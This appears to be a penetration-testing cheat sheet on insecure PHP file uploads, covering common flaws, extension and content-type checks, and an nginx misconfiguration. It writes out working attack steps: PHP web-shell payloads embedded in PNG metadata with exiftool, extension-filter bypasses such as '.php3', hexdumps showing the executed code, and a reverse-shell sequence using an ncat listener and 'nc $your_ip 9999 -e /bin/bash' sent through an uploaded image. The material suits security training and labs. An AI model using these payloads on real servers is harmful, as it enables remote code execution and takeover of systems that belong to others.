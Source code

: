 #### 1.1. Common issues

Common issues in lax file-upload logic:

- overwrite file name and content
- arbitrary file extension is allowed
- mixed content may be executed based on file extension (`.php` file but `JPEG` mime-type)
- malicious files `.exe` can be distributed from trusted context
- image parser vulnerabilities (e.g. ImageTragick)
- was the image processed server-side?
  - compare the checksum of the original file with the checksum of the uploaded file
  - image sanitization can also be done by image resize (parser will rebuild the image for you)
- validation vs. sanitization = checking user input vs. altering user input to fit a specific purpose

#### 1.2. To inject malicious `php` in a `.png` file

Read info about the image:
```
# strings 1.png  #get all strings from image file
# exiftool 1.png #get meta information in files
```
Install `exiftool`:
```
# apt-get install libimage-exiftool-perl -yqq
```
Create test image:
```
# convert -size 1x1 xc:transparent image.jpg
```

Place the PHP code in a meta-data comment:
```
# echo '<?php system($_GET["cmd"]);?>' > 1.php
# exiftool 1.png '-comment<=1.php'
```

Check if the file was modified server-side:
```
# curl -sSL http://vuln.loc/admin/uploads/1438865053.png | strings | grep system
<?php system($_GET["cmd"]);
```

Exercise: `pentesterlab.com/exercises/from_sqli_to_shell_II`

#### 1.3. Secure file-upload implementation?

- file extension check

```php
$file = basename($_FILES['image']['name']);
$ext = pathinfo($file, PATHINFO_EXTENSION);
$valids = array("png","gif", "jpg");
if (!in_array($ext, $valids )){
   DIE("This application allows gif, png or jpg files");
}
```

- file content-type check

```php
$base =  $_FILES['image']['tmp_name'];
list($swidth,$sheight, $smime, $attr) = getimagesize($base);
switch ($smime) {
  case IMAGETYPE_GIF:
    $src = imagecreatefromgif($base);
    break;
  case IMAGETYPE_JPEG:
    $src = imagecreatefromjpeg($base);
    break;
  case IMAGETYPE_PNG:
    $src = imagecreatefrompng($base);
    break;
  default:
    DIE("INVALID CONTENT TYPE:".$smime);
}
if ($src === false) {
  DIE("INVALID IMAGE");
}
```

- web-root upload location

```php
if(!move_uploaded_file($base, "/var/www/admin/uploads/".$file)) {
  die("Error during upload");
}
```

#### 1.4. Nginx misconfiguration for PHP apps

Docs: `https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/#passing-uncontrolled-requests-to-php`

Original upload (contains embedded PHP code `<?php echo 123;?>` in comment meta-data section):
```
$ http -b "http://$target/admin/uploads/123.png" | hexdump -C
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 01 00 00 00 01  01 00 00 00 00 37 6e f9  |.............7n.|
00000020  24 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |$....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |`..:....p..Q<...|
00000060  02 74 52 4e 53 00 00 76  93 cd 38 00 00 00 02 62  |.tRNS..v..8....b|
00000070  4b 47 44 00 01 dd 8a 13  a4 00 00 00 19 74 45 58  |KGD..........tEX|
00000080  74 43 6f 6d 6d 65 6e 74  00 3c 3f 70 68 70 20 65  |tComment.<?php e|
00000090  63 68 6f 20 31 32 33 3b  3f 3e 80 4c 58 03 00 00  |cho 123;?>.LX...|
000000a0  00 0a 49 44 41 54 08 d7  63 60 00 00 00 02 00 01  |..IDAT..c`......|
000000b0  e2 21 bc 33 00 00 00 00  49 45 4e 44 ae 42 60 82  |.!.3....IEND.B`.|
000000c0
```

Abusing the misconfiguration (comment section contains the output of the PHP code `Comment.123`):
```
$ http -b "http://$target/admin/uploads/123.png/.php" | hexdump -C
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 01 00 00 00 01  01 00 00 00 00 37 6e f9  |.............7n.|
00000020  24 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |$....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |`..:....p..Q<...|
00000060  02 74 52 4e 53 00 00 76  93 cd 38 00 00 00 02 62  |.tRNS..v..8....b|
00000070  4b 47 44 00 01 dd 8a 13  a4 00 00 00 19 74 45 58  |KGD..........tEX|
00000080  74 43 6f 6d 6d 65 6e 74  00 31 32 33 80 4c 58 03  |tComment.123.LX.|
00000090  00 00 00 0a 49 44 41 54  08 d7 63 60 00 00 00 02  |....IDAT..c`....|
000000a0  00 01 e2 21 bc 33 00 00  00 00 49 45 4e 44 ae 42  |...!.3....IEND.B|
000000b0  60 82                                             |`.|
000000b2
```

Reverse shell with embedded PHP inside image:
```
$ exiftool -all='' image.png
$ exiftool -comment='<?=system($_GET["cmd"]);?>' image.png # upload this on server
$ ncat -nlvp 9999 # your local listener
$ cmd='nc $your_ip 9999 -e /bin/bash'
$ http http://$target/admin/uploads/123.png/.php?cmd="$cmd"
```

#### 1.5. PHP examples

##### Example 1:

Code (zero input validation):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php echo system($_GET["c"]);' > f.php
```

##### Example 2:

Code (still vulnerable if extension is not `.php`; e.g: `.phtml, .php3, .php4, .php5, .php7, .phps, .php-s, .pht, .phar`):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if (preg_match('/\.php$/',$file)) { DIE("NO PHP"); }
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php system($_GET["c"]);' > f.php3
```
